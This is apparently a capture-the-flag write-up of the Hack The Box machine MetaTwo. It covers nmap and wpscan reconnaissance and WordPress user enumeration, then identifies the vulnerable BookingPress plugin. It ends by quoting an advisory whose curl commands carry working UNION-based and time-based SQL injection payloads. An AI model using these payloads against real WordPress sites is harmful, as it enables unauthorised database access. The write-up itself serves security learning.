

MetaTwo
Table of Contents
MetaTwo
I start out by scanning the host
Nmap Scan
# Nmap 7.92 scan initiated Wed Nov 2 23:56:39 2022 as: nmap -A -oA scans/10.10.11.186 10.10.11.186 Nmap scan report for 10.10.11.186 Host is up (0.034s latency). Not shown: 997 closed tcp ports (reset) PORT STATE SERVICE VERSION 21/tcp open tcpwrapped 22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0) | ssh-hostkey: | 3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA) | 256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA) |_ 256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519) 80/tcp open http nginx 1.18.0 |_http-server-header: nginx/1.18.0 |_http-title: Did not follow redirect to http://metapress.htb/ No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint: OS:SCAN(V=7.92%E=4%D=11/2%OT=22%CT=1%CU=34702%PV=Y%DS=2%DC=T%G=Y%TM=636303D OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1 OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N% OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD OS:=S) Network Distance: 2 hops Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE (using port 256/tcp) HOP RTT ADDRESS 1 35.89 ms 10.10.14.1 2 36.02 ms 10.10.11.186 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Wed Nov 2 23:57:07 2022 -- 1 IP address (1 host up) scanned in 27.81 seconds
from the nmap scan you see there is a hostname metapress.htb. put that in your hosts files
HTTP service
On the http service there is a wordpress install.

Wordpress Enumeration
- Username enumeration
First thing i try is searching by the author tag, i dont see any
Going to
http://metapress.htb/?author=1
Takes me to
http://metapress.htb/author/admin/
So admin user is named
admin.I want to be sure there is no other users so i check the wp-json api
http://metapress.htb/wp-json/wp/v2/users
[ { "id": 1, "name": "admin", "url": "http://metapress.htb", "description": "", "link": "http://metapress.htb/author/admin/", "slug": "admin", "avatar_urls": { "24": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=24&d=mm&r=g", "48": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=48&d=mm&r=g", "96": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=96&d=mm&r=g" }, "meta": [], "_links": { "self": [ { "href": "http://metapress.htb/wp-json/wp/v2/users/1" } ], "collection": [ { "href": "http://metapress.htb/wp-json/wp/v2/users" } ] } } ]Looks like its just admin user
- Wpscan
So after i find out what users are on the box i start wpscan.
_______________________________________________________________ __ _______ _____ \ \ / / __ \ / ____| \ \ /\ / /| |__) | (___ ___ __ _ _ __ ® \ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \ \ /\ / | | ____) | (__| (_| | | | | \/ \/ |_| |_____/ \___|\__,_|_| |_| WordPress Security Scanner by the WPScan Team Version 3.8.22 Sponsored by Automattic - https://automattic.com/ @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart _______________________________________________________________ [+] URL: http://metapress.htb/ [10.10.11.186] [+] Started: Tue Dec 13 22:31:50 2022 Interesting Finding(s): [+] robots.txt found: http://metapress.htb/robots.txt | Interesting Entries: | - /wp-admin/ | - /wp-admin/admin-ajax.php | Found By: Robots Txt (Aggressive Detection) | Confidence: 100% [+] XML-RPC seems to be enabled: http://metapress.htb/xmlrpc.php | Found By: Direct Access (Aggressive Detection) | Confidence: 100% | References: | - http://codex.wordpress.org/XML-RPC_Pingback_API | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/ | - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/ | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/ | - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/ [+] WordPress readme found: http://metapress.htb/readme.html | Found By: Direct Access (Aggressive Detection) | Confidence: 100% [+] The external WP-Cron seems to be enabled: http://metapress.htb/wp-cron.php | Found By: Direct Access (Aggressive Detection) | Confidence: 60% | References: | - https://www.iplocation.net/defend-wordpress-from-ddos | - https://github.com/wpscanteam/wpscan/issues/1299 [+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22). | Found By: Rss Generator (Aggressive Detection) | - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator> | - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator> [i] The main theme could not be detected. [i] No plugins Found. [i] No Config Backups Found. [!] No WPScan API Token given, as a result vulnerability data has not been output. [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register [+] Finished: Tue Dec 13 22:31:58 2022 [+] Requests Done: 168 [+] Cached Requests: 3 [+] Data Sent: 49.928 KB [+] Data Received: 131.045 KB [+] Memory used: 207.496 MB [+] Elapsed time: 00:00:07Wp scan has found some usfule things like the fact
/readme.htmlis there. - Readme.html
Checking the readme.html should be done whever you see it, it contains helpful info.
In this case i dont see much here
- Plugin enumeration
Now wpscan did a poor job of finding plugins (maybe i should make my own?)
So from my notes there are a few ways of finding plugins The best way is to check the html source
- Checking the Html Source
Checking the source I find the theme is called
twentytwentyoneversion 1.1http://metapress.htb/wp-content/themes/twentytwentyone/assets/css/print.css?ver=1.1
I do not see any vulns with the theme from my Search online.
Now lets check the plugins. Thee is an events booker and that is certainly a plugin. Going to the event booker and checking the source:
<head> <meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1"> <title>Events – MetaPress</title> <link rel="dns-prefetch" href="//metapress.htb"> <link rel="dns-prefetch" href="//s.w.org"> <link rel="alternate" type="application/rss+xml" title="MetaPress » Feed" href="http://metapress.htb/feed/"> <link rel="alternate" type="application/rss+xml" title="MetaPress » Comments Feed" href="http://metapress.htb/comments/feed/"> <link rel="stylesheet" id="twenty-twenty-one-style-css" href="http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1" media="all"> <link rel="stylesheet" id="twenty-twenty-one-print-style-css" href="http://metapress.htb/wp-content/themes/twentytwentyone/assets/css/print.css?ver=1.1" media="print"> <link rel="stylesheet" id="bookingpress_element_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_element_theme.css?ver=1.0.10" media="all"> <link rel="stylesheet" id="bookingpress_fonts_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/fonts/fonts.css?ver=1.0.10" media="all"> <link rel="stylesheet" id="bookingpress_front_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_front.css?ver=1.0.10" media="all"> <link rel="stylesheet" id="bookingpress_tel_input-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_tel_input.css?ver=1.0.10" media="all"> <link rel="stylesheet" id="bookingpress_calendar_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_vue_calendar.css?ver=1.0.10" media="all"> <script id="bookingpress_vue_js-js-extra"> var appoint_ajax_obj = {"ajax_url":"http:\/\/metapress.htb\/wp-admin\/admin-ajax.php"}; </script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_vue.min.js?ver=1.0.10" id="bookingpress_vue_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_axios.min.js?ver=1.0.10" id="bookingpress_axios_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_wordpress_vue_qs_helper.js?ver=1.0.10" id="bookingpress_wordpress_vue_helper_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_element.js?ver=1.0.10" id="bookingpress_element_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_vue_calendar.js?ver=1.0.10" id="bookingpress_calendar_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_moment.min.js?ver=1.0.10" id="bookingpress_moment_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_tel_input.js?ver=1.0.10" id="bookingpress_tel_input_js-js"></script> <script data-cfasync="false" src="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/js/bookingpress_element_en.js?ver=1.0.10" id="bookingpress_element_en_js-js"></script> </head>
I cut down on all the extra stuff, what you can see out of this, is that there is a plugin named
bookingpress.
- Checking the Html Source
BookingPress investigation sqli
Searching bookingpress right away shows that it is vulnerable to a unauthenticated SQL Injection.
- BookingPress < 1.0.11 - Unauthenticated SQL Injection
Description
The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection
- Proof of Concept
- Create a new "category" and associate it with a new "service" via the BookingPress admin menu (/wp-admin/admin.php?page=bookingpress_services) - Create a new page with the "[bookingpress_form]" shortcode embedded (the "BookingPress Step-by-step Wizard Form") - Visit the just created page as an unauthenticated user and extract the "nonce" (view source -> search for "action:'bookingpress_front_get_category_services'") - Invoke the following curl command curl -i 'https://example.com/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' Time based payload: curl -i 'https://example.com/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH'
- Proof of Concept